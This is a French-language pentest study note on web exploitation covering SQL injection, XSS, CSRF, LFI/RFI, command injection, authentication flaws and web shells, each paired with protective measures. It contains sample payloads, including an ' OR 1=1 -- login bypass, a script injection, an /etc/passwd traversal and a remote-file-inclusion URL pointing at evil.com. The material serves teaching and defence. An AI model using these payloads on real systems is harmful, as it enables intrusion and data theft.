 # < Exploitation Web pour la Cybersécurité \U0001f4bb\U0001f576\ufe0f

L'exploitation web se concentre sur l'identification et l'exploitation des vulnérabilités des applications web \U0001f310. Cela inclut des attaques telles que l'injection SQL, XSS, les failles de sécurité liées à l'authentification \U0001f510, et bien plus. Cette note couvre les principales vulnérabilités et techniques d'exploitation \U0001f680.

---

## >ð Types de vulnérabilités Web \U0001f525

### =1 Injection SQL (SQLi) \U0001f4a5

L'injection SQL permet d'exécuter des commandes SQL malveillantes via des champs d'entrée non sécurisés, afin de manipuler la base de données \U0001f5c3\ufe0f. Elle peut mener à l'exfiltration de données, à la modification de données, voire à la suppression de tables \U0001f9e8.

**Exploitation** :  
- Utiliser des caractères spéciaux comme `'`, `"`, `;` dans les champs de recherche, login, etc.
- Exemple d'attaque :  
  `' OR 1=1 --` (pour bypasser l'authentification) \U0001f440

**Protection** :  
- Utiliser des requêtes préparées avec des paramètres.
- Valider et échapper les entrées utilisateur \U0001f6e1\ufe0f.

---

### =2 Cross-Site Scripting (XSS) \U0001f3ad

Le XSS permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui s'exécutera dans le navigateur de la victime \U0001f4bb. Cela peut permettre le vol de cookies \U0001f36a, la redirection de l'utilisateur \U0001f6a8 ou l'exécution d'actions non autorisées \U0001f9e8.

**Exploitation** :  
- Injection de `<script>alert('XSS');</script>` dans un champ de saisie non filtré.
- Voler des cookies via `document.cookie`.

**Protection** :  
- Assurer un encodage correct des sorties \U0001f4a1.
- Utiliser des Content Security Policy (CSP) \u26a1.

---

### =3 Cross-Site Request Forgery (CSRF) \U0001f9e0

CSRF permet à un attaquant de faire effectuer des actions à un utilisateur authentifié sans son consentement \U0001f636. Par exemple, un attaquant pourrait forcer un utilisateur connecté à transférer des fonds \U0001f4b8 ou changer son mot de passe \U0001f511.

**Exploitation** :  
- Créer un formulaire invisible pointant vers une action sur un site vulnérable, et l'exécuter en utilisant un utilisateur authentifié \U0001f3af.

**Protection** :  
- Utiliser des tokens CSRF dans les formulaires \U0001f39f\ufe0f.
- Vérifier la méthode HTTP (GET, POST) des requêtes sensibles \U0001f6e1\ufe0f.

---

### =4 Inclusion de fichier (LFI/RFI) \U0001f4c2

Les attaques LFI (Local File Inclusion) et RFI (Remote File Inclusion) permettent à un attaquant d'inclure un fichier externe ou local dans une application web \U0001f5a5\ufe0f. Cela peut permettre l'exécution de code malveillant ou l'accès à des informations sensibles \U0001f4c9.

**Exploitation** :  
- LFI : `http://vulnerable-site.com/page.php?file=../../../../etc/passwd`
- RFI : `http://vulnerable-site.com/page.php?file=http://evil.com/malicious.php`

**Protection** :  
- Valider et nettoyer les entrées utilisateur \U0001f9fc.
- Utiliser des chemins relatifs sécurisés \U0001f512.

---

### =5 Command Injection \U0001f4a3

L'injection de commandes permet à un attaquant d'exécuter des commandes système via des champs d'entrée non validés \U0001f5b1\ufe0f.

**Exploitation** :  
- Exemple : `http://vulnerable-site.com/cgi-bin/command?param=; ls -la`
- Cela permet de lister les fichiers \U0001f4c2, exécuter des commandes malveillantes \u26a0\ufe0f, etc.

**Protection** :  
- Échapper les caractères spéciaux dans les entrées \u26d4.
- Ne jamais faire confiance aux entrées utilisateur \U0001f576\ufe0f.

---

### =6 Failles d'authentification \U0001f511

L'authentification faible, l'absence de gestion des sessions et des mots de passe compromis peuvent être exploitées par un attaquant pour accéder à des zones protégées du site \U0001f513.

**Exploitation** :  
- Brute-forcing des mots de passe via des outils comme Hydra \U0001f9f0.
- Utilisation de cookies volés pour hijacker une session \U0001f3ad.

**Protection** :  
- Implémenter l'authentification multifactorielle (MFA) \U0001f6e1\ufe0f.
- Utiliser des mots de passe forts \U0001f510 et un stockage sécurisé des mots de passe (hachage et salage) \U0001f9ec.

---

## =2 Outils pour l'exploitation Web \U0001f6e0\ufe0f

- **Burp Suite** : Utilisé pour l'interception et la manipulation des requêtes HTTP/HTTPS \U0001f9b8\u200d\u2642\ufe0f.
- **SQLmap** : Outil automatisé pour détecter et exploiter les injections SQL \U0001f6e0\ufe0f.
- **Nikto** : Scanner de vulnérabilités web pour détecter diverses failles de sécurité \U0001f50d.
- **OWASP ZAP** : Un autre scanner d'applications web pour détecter les vulnérabilités de sécurité \U0001f575\ufe0f\u200d\u2640\ufe0f.

---

## =3 Techniques avancées \U0001f3c6

### =1 Web Shells \U0001f41a

Les Web Shells permettent de prendre le contrôle d'un serveur via une interface web \U0001f47e. Après avoir trouvé une vulnérabilité permettant d'inclure des fichiers ou d'exécuter des commandes, un attaquant peut uploader un Web Shell pour contrôler le serveur \U0001f525.

**Exploitation** :  
- Uploader un fichier PHP malveillant pour exécuter des commandes système \U0001f3ae.

**Protection** :  
- Filtrer les types de fichiers téléchargés \U0001f6d1.
- Limiter les privilèges d'écriture sur le serveur \U0001f9f1.

---

## =4 Récupération de mots de passe \U0001f511

### =1 Brute Forcing \U0001f4aa

Utiliser des outils comme **Hydra** ou **Burp Suite Intruder** pour tester différentes combinaisons de mots de passe \U0001f513.

**Protection** :  
- Mettre en place des protections contre les attaques par force brute (ex : CAPTCHA, délais de réponse, etc.) \U0001f9e0.
- Utiliser des mots de passe complexes \U0001f511 et une gestion appropriée des tentatives échouées \u26a0\ufe0f.

---

## Conclusion \U0001f680

L'exploitation web est un domaine clé en cybersécurité, avec un large éventail de vulnérabilités possibles \U0001f525. Une bonne pratique de pentest consiste à identifier ces vulnérabilités et à implémenter des protections adaptées \U0001f4a1. Une fois les failles identifiées, il est essentiel d'appliquer des mesures correctives pour garantir la sécurité des applications web \U0001f510.

